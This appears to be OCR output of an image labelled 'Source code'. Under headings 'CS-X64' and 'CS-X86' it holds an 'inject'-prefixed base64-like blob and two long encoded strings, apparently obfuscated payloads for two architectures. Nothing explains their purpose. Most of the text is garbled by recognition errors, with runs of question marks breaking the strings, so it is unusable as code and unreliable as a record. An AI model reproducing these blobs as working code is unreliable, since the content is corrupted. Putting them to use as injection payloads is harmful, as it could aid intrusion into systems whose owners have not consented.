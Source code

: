# CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



jesad34|2???,????R;??6,???s;1????0,T;????14,?P;1?8,k;2????2,J;?26????,U;3???0,y????;34,h?;3????8,????%;4?2,s?;46???,c;50??,6;54??,Q;58???,????t;62??,????B;66???,L;70???,?f;7?4????,??@;78,???F?;??82,W????;86,@????;??90,p;????94,a?;??98,?Q;?102,?X;????106,u??;110,?4;???11?4,Z;????118????,7;12?2?,???g??;126?,s;13?0,y;1?3????4,C;|????h???ArRC0?hs6m??lT9?YYP????x???yC????k???zU2J????0LAU??vhIyx???Dnh???C???LM%???Vn????B????srNL???cNBq6???yU??2QT???9lt1??05????BgDv???LDZef?VnD@??5?w???0Fwlv????WzUY??@09z???pn??x0a3??ljQzL????NXVm????Auvg????H????4h??zm??Z????BVw??7P???fB?g???9I?Tsx???EryC??L??3C???=qqerger



chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv
